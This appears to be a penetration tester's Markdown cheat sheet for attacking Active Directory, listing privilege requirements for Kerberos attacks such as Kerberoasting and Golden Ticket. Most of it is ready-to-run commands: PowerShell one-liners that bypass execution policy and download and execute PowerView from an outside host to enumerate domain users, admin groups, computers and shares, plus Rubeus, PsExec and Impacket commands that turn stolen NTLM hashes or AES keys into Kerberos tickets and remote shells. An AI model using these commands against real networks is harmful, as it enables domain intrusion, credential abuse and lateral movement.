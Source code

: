 
### Attack Privilege Requirements
- Kerbrute Enumeration
	- No domain access required 

- Pass the Ticket
	- Access as a user to the domain required

- Kerberoasting
	- Access as any user required

- AS-REP Roasting
	- Access as any user required

- Golden Ticket
	- Full domain compromise (domain admin) required 

- Silver Ticket
	- Service hash required 

- Skeleton Key
	- Full domain compromise (domain admin) required

### Enumeration

PowerView:
- [USER]
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-Domain"
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser"
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -SPN"
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties 		samaccountname,memberof"
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties 		samaccountname,description"

- [GROUP]
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins'"
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1');  Get-DomainGroup | where Name -like 	    "*Admin*" | select SamAccountName "
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain 	    admins' "
	
	-powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"

[COMPUTER]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-NetComputer | select samaccountname, operatingsystem"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainComputer -Ping "

[SHARED INFO]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Find-DomainShare -Verbose"
cd \\fileshare.pentesting.local\FileShare

### Overass The Hash / Pass The Key

- in PowerShell

	- Rubeus
		- Commands
			- `Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt`
		- [Rubeus](https://github.com/GhostPack/Rubeus)

	- PsExec
		- Commands
			- `PsExec.exe -accepteula \\$REMOTE_HOSTNAME cmd`

- in Kali Linux

	- Impacket
		- Commands
			- with Hash
				- `getTGT.py $DOMAIN/$DOMAIN_USER -hashes [lm_hash]:$NTLM_HASH`
			- with aesKey
				- `getTGT.py $DOMAIN/$DOMAIN_USER -aesKey $AES_KEY`
			- with Password
				- `getTGT.py $DOMAIN/$DOMAIN_USER:$PASSWORD`
			- Set TGT for impacket use
				- `export KRB5CCNAME=<TGT_ccache_file>`
			- Execute remote commands
				- `psexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `smbexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `wmiexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
		- [Impacket](https://github.com/SecureAuthCorp/impacket/releases/)
